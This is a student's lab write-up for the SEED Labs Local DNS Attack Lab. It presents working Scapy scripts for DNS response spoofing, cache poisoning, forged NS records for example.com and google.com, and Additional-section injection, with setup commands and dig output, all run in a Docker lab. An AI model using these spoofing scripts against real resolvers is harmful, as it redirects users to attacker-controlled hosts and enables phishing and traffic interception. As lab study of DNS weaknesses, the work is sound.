 Local DNS Attack Lab

## Task 1: Directly Spoofing DNS Response to User

---

#Objective

The goal of this task is to perform a DNS spoofing attack within a local network. The attacker intercepts DNS queries from a user and sends a forged DNS response with a fake IP address before the real response arrives. This simulates how attackers can redirect victims to malicious websites.

---
 #Lab Environment Setup

| Component             | Description                    | IP Address       |
|----------------------|--------------------------------|------------------|
| Attacker Container   | seed-attacker                  | 10.9.0.1         |
| Victim/User Container| hostA                          | 10.9.0.5         |
| DNS Server Container | local-dns-server (BIND9)       | 10.9.0.53        |
| Sniffing Interface   | Docker bridge interface        | br-233f3ca0592c  |
| Target Domain        | www.example.com                | -                |
| Spoofed IP           | IP used in forged response     | 1.2.3.4          |

 #Preparation Steps:

1. Flush the DNS cache on the local DNS server:
   ```bash
   rndc flush
   ```

2. Modify `/etc/resolv.conf` in the victim container (`hostA`) to use the local DNS server:
   ```
   nameserver 10.9.0.53
   ```

---

 Spoofing Script (`dns_spoof.py`)

```python
from scapy.all import *

NS_NAME = "www.example.com"

def spoof_dns(pkt):
    print("\n[DEBUG] Packet sniffed")

    if DNS in pkt and pkt.haslayer(DNSQR):
        queried = pkt[DNS].qd.qname.decode().rstrip('.')
        print(f"[DEBUG] DNS Query for: {queried}")

        if queried == NS_NAME:
            print(f"[!] Spoofing DNS for {queried}")
            ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
            udp = UDP(dport=pkt[UDP].sport, sport=53)
            ans = DNSRR(rrname=pkt[DNS].qd.qname, ttl=259200, rdata="1.2.3.4")
            dns = DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,
                      an=ans, qdcount=1, ancount=1)
            spoofpkt = ip / udp / dns
            send(spoofpkt, verbose=0)
            print("[+] Spoofed packet sent!")

iface = "br-233f3ca0592c"
print(f"[*] Listening for DNS queries on interface: {iface}")
sniff(filter="udp port 53", iface=iface, prn=spoof_dns)
```




 #Expected Result

When the victim runs:
```bash
dig www.example.com
```

The expected output should be:
```
;; ANSWER SECTION:
www.example.com. 259200 IN A 1.2.3.4
```

Indicating the spoofed response was accepted before the legitimate one.

---

Actual Result



On execution, the victim received:
```
;; ANSWER SECTION:
www.example.com. 259200 IN A 1.2.3.4

;; SERVER: 10.9.0.53#53(10.9.0.53)
```

-This confirms the spoofed packet was successfully delivered and processed by the victim's resolver.

---

Observations

- The spoofing initially failed because the victim was using Docker's internal DNS (`127.0.0.11`).
- After updating the victim’s DNS to use `10.9.0.53`, the attack worked perfectly.
- The spoofed packet won the race, highlighting the vulnerability in a local unsecured DNS environment.

---

Conclusion

This task demonstrated a successful DNS spoofing attack in a local network. The attacker redirected DNS queries for `www.example.com` to a fake IP `1.2.3.4`. It illustrates the risks in DNS setups lacking DNSSEC or other validation mechanisms, and the importance of secured and authenticated DNS traffic.

....................................................................................................................................................................................................................................


# 🧨 SEED Labs – Task 2: DNS Cache Poisoning Attack

## 🎯 Objective

The goal of this task is to perform a **DNS cache poisoning attack** on a local DNS server (`10.9.0.53`) within a controlled lab environment. The attacker spoofs a DNS response and sends it to the DNS server before the legitimate one arrives, causing the server to cache the forged information.

---

## 🧪 Environment

- **User Machine:** `hostA` (10.9.0.5)
- **Attacker:** `seed-attacker` (host mode)
- **DNS Server:** `local-dns-server` (10.9.0.53)
- **Router:** `seed-router`

The lab setup was configured using Docker Compose and shared volumes (`./volumes`) between host and containers.

---

## ⚙️ Setup Steps

### 1. Flush DNS Cache
Run inside `local-dns-server` container:
```bash
rndc flush
```

### 2. Introduce Network Delay
Inside `seed-router` container:
```bash
tc qdisc del dev eth0 root
tc qdisc add dev eth0 root netem delay 150ms
tc qdisc show dev eth0
```

### 3. Run the Attack Script
Inside `seed-attacker` container:
```bash
cd /volumes
python3 dns_cache_poison.py


The script listens for DNS queries for `www.example.com` and responds with:
```plaintext
1.2.3.4
```


This confirms that your spoofed DNS response was sent to the local DNS server.
### 4. Trigger the Query from the User
Inside `hostA` container:
```bash
dig www.example.com
```

### 5. Verify Cache Status
Re-run the dig **after stopping the attacker script**:
```bash
dig www.example.com
```



Then check cache inside DNS server:
```bash
rndc dumpdb -cache
cat /var/cache/bind/dump.db | grep example.com
```

---



This means:

Your spoofed packet arrived before the real one.

The DNS server accepted your forged answer.

On the second dig (after stopping the attacker script):


once attacket script was stopped no valid response was available .


## ✅ Results

- The attacker successfully intercepted the query and sent a spoofed DNS response.
- The user machine (`hostA`) received the fake IP (`1.2.3.4`) from the local DNS server.
- Repeating the query after stopping the spoof confirmed the value came from cache.
- The DNS dump file did not show the poisoned record, likely due to how BIND handles untrusted replies.

---

- dns_cache_poison.py

```python
#!/usr/bin/env python3
from scapy.all import *

NS_NAME = "www.example.com"

def spoof_dns(pkt):
    if DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8'):
        print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)  # dst is DNS server
        udp = UDP(dport=pkt[UDP].sport, sport=53)

        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                       ttl=259200, rdata='1.2.3.4')

        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                  qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)

        spoofpkt = ip / udp / dns
        send(spoofpkt)

iface = "br-xxxxxxxxxxxx"  # Replace with your actual interface name
f = "udp and dst port 53"
sniff(iface=iface, filter=f, prn=spoof_dns)
```
.....................................................................................................................................................................................................................................

# 🧨 SEED Labs – Task 3: Spoofing NS Records (DNS Cache Poisoning)

## 🎯 Objective

This task demonstrates a more impactful DNS cache poisoning attack where the attacker spoofs a **Name Server (NS)** record for the entire domain (`example.com`). By injecting a forged NS record, all future queries to subdomains under `example.com` (e.g., `mail.example.com`, `ftp.example.com`) will be redirected to the attacker's malicious nameserver (`ns.attacker32.com`).

---

## 🧪 Environment

- **User Machine:** `hostA` (10.9.0.5)
- **Attacker:** `seed-attacker`
- **DNS Server:** `local-dns-server` (10.9.0.53)
- **Router:** `seed-router`

---

## ⚙️ Setup Steps

### 1. Flush DNS Cache
```bash
rndc flush
```

### 2. Apply Network Delay on Router
```bash
tc qdisc del dev eth0 root
tc qdisc add dev eth0 root netem delay 150ms
```

### 3. Run the Spoofing Script
Inside `seed-attacker` container:
```bash
cd /volumes
python3 dns_ns_spoof.py
```

The script listens for DNS queries to `example.com`, and responds with:

- A record: `1.2.3.4`
- NS record: `example.com IN NS ns.attacker32.com`



### 4. Trigger DNS Queries from User
From `hostA`:
```bash
dig www.example.com
dig mail.example.com
dig ftp.example.com
```

---

## ✅ Results

Each query to a subdomain of `example.com` returned:

- A fake IP (`1.2.3.4`)
- An NS record pointing to the attacker-controlled nameserver

### Example Output:
```text
;; ANSWER SECTION:
www.example.com. 259200 IN A 1.2.3.4

;; AUTHORITY SECTION:
example.com. 259200 IN NS ns.attacker32.com.
```

This confirms that the NS spoof was successful and cached by the DNS server.

---

## 🧾 Source Code: dns_ns_spoof.py

```python
#!/usr/bin/env python3
from scapy.all import *

NS_NAME = "example.com"

def spoof_dns(pkt):
    if DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8'):
        print(pkt.sprintf("[+] Spoofing: %IP.src% --> %IP.dst% | DNS ID: %DNS.id%"))

        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        udp = UDP(dport=pkt[UDP].sport, sport=53)

        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='1.2.3.4')
        NSsec = DNSRR(rrname="example.com", type="NS", ttl=259200, rdata="ns.attacker32.com")

        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                  qdcount=1, ancount=1, nscount=1, arcount=0,
                  an=Anssec, ns=NSsec)

        spoofpkt = ip / udp / dns
        send(spoofpkt)
        print("[+] Sent spoofed packet.")

iface = "br-xxxxxxxxxxxx"  # Replace with actual interface
f = "udp and dst port 53"
print("[*] Listening for DNS queries on interface:", iface)
sniff(iface=iface, filter=f, prn=spoof_dns)

......................................................................................................................................................................................................................................
# 🧨 SEED Labs – Task 4: Spoofing NS Records for Another Domain

## 🎯 Objective

In this task, we extended the DNS cache poisoning attack from Task 3. Instead of targeting only `example.com`, we modified the spoofed response to also poison the NS record for another unrelated domain: `google.com`. This means any queries to `google.com` will now be resolved through the attacker-controlled nameserver.

---

## 🧪 Environment

- **User Machine:** `hostA` (10.9.0.5)
- **Attacker:** `seed-attacker`
- **DNS Server:** `local-dns-server` (10.9.0.53)
- **Router:** `seed-router`

---

## ⚙️ Setup Steps

### 1. Flush the DNS Cache
```bash
rndc flush
```

### 2. Apply Network Delay on Router
```bash
tc qdisc del dev eth0 root
tc qdisc add dev eth0 root netem delay 150ms
```

### 3. Run the Spoofing Script
Inside `seed-attacker` container:
```bash
cd /volumes
python3 dns_nsdiffdomain_spoof.py
```


The script spoofs responses to queries for `www.example.com` and injects forged NS records for:
- `example.com`
- `google.com`

### 4. Trigger DNS Queries from User
```bash
dig www.example.com
dig www.google.com
```

---

## ✅ Results

### 🔹 Output from `dig www.example.com`:
```
;; ANSWER SECTION:
www.example.com. 259200 IN A 1.2.3.4

;; AUTHORITY SECTION:
example.com. 259200 IN NS ns.attacker32.com.
google.com.  259200 IN NS ns.attacker32.com.
```

### 🔹 Output from `dig www.google.com`:
```
;; connection timed out; no servers could be reached
```

✅ This is expected because the DNS server now tries to resolve `google.com` via the fake `ns.attacker32.com`, which doesn't actually respond.

---

## 🧾 Source Code: dns_nsdiffdomain_spoof.py

```python
#!/usr/bin/env python3
from scapy.all import *

NS_NAME = "example.com"

def spoof_dns(pkt):
    if DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8'):
        print(pkt.sprintf("[+] Spoofing: %IP.src% --> %IP.dst% | DNS ID: %DNS.id%"))

        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        udp = UDP(dport=pkt[UDP].sport, sport=53)

        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='1.2.3.4')
        NSsec1 = DNSRR(rrname="example.com", type="NS", ttl=259200, rdata="ns.attacker32.com")
        NSsec2 = DNSRR(rrname="google.com", type="NS", ttl=259200, rdata="ns.attacker32.com")

        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                  qdcount=1, ancount=1, nscount=2, arcount=0,
                  an=Anssec, ns=NSsec1 / NSsec2)

        spoofpkt = ip / udp / dns
        send(spoofpkt)
        print("[+] Sent spoofed packet.")

iface = "br-xxxxxxxxxxxx" 
f = "udp and dst port 53"
print("[*] Listening for DNS queries on interface:", iface)
sniff(iface=iface, filter=f, prn=spoof_dns)

......................................................................................................................................................................................................................................
# 🧨 SEED Labs – Task 5: Spoofing Records in the Additional Section

## 🎯 Objective

In this task, we attempted to poison the DNS cache by spoofing records in the **Additional Section** of a DNS response. This section is commonly used to provide A records for names that appear in the **Authority Section**, potentially helping the resolver avoid separate lookups.

---

## 🧪 Environment

- **User Machine:** `hostA` (10.9.0.5)
- **Attacker:** `seed-attacker`
- **DNS Server:** `local-dns-server` (10.9.0.53)
- **Router:** `seed-router`


## ⚙️ Spoofed DNS Response Details

### Authority Section:
```
example.com.       IN NS   ns.attacker32.com.
example.com.       IN NS   ns.example.com.
```


### Additional Section:
```
ns.attacker32.com. IN A    1.2.3.4
ns.example.net.    IN A    5.6.7.8
www.facebook.com.  IN A    3.4.5.6
```

### Trigger:
A DNS query for `www.example.com` from `hostA` initiates the spoof.

---




## ✅ Observed Results

- The spoofed packet was accepted, and all three additional A records were shown in the `dig` output from `hostA`.
- However, **none of the A records in the Additional Section were cached** on the local DNS server.

```bash
cat /var/cache/bind/dump.db | grep attacker32
cat /var/cache/bind/dump.db | grep example
cat /var/cache/bind/dump.db | grep facebook
```


✅ Output: 

---

## 🔍 Why These Records Were Not Cached

| Record                  | Cached? | Explanation |
|-------------------------|---------|-------------|
| `ns.attacker32.com`     | ❌      | Present in Additional, but not queried or authoritative |
| `ns.example.net`        | ❌      | Not referenced in Authority section; untrusted |
| `www.facebook.com`      | ❌      | Completely unrelated; ignored by BIND for caching |

BIND DNS server does **not trust or cache** A records in the Additional Section unless:
- They are associated with trusted NS entries.
- The server queries them directly.

This behavior is a security feature to **prevent cache poisoning attacks** from exploiting loosely-related additional records.

---
dns_additional_spoof.py

```python
#!/usr/bin/env python3
from scapy.all import *

NS_NAME = "example.com"

def spoof_dns(pkt):
    if DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8'):
        print(pkt.sprintf("[+] Spoofing: %IP.src% --> %IP.dst% | DNS ID: %DNS.id%"))

        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        udp = UDP(dport=pkt[UDP].sport, sport=53)

        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type="A", ttl=259200, rdata="1.2.3.4")

        NSsec1 = DNSRR(rrname="example.com", type="NS", ttl=259200, rdata="ns.attacker32.com")
        NSsec2 = DNSRR(rrname="example.com", type="NS", ttl=259200, rdata="ns.example.com")

        Addsec1 = DNSRR(rrname="ns.attacker32.com", type="A", ttl=259200, rdata="1.2.3.4")
        Addsec2 = DNSRR(rrname="ns.example.net", type="A", ttl=259200, rdata="5.6.7.8")
        Addsec3 = DNSRR(rrname="www.facebook.com", type="A", ttl=259200, rdata="3.4.5.6")

        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                  qdcount=1, ancount=1, nscount=2, arcount=3,
                  an=Anssec, ns=NSsec1 / NSsec2, ar=Addsec1 / Addsec2 / Addsec3)

        spoofpkt = ip / udp / dns
        send(spoofpkt)
        print("[+] Sent spoofed packet with Additional Section.")

iface = "br-233f3ca0592c"
f = "udp and dst port 53"
print("[*] Listening for DNS queries on interface:", iface)
sniff(iface=iface, filter=f, prn=spoof_dns)
.....................................................................................................................................................................................................................................

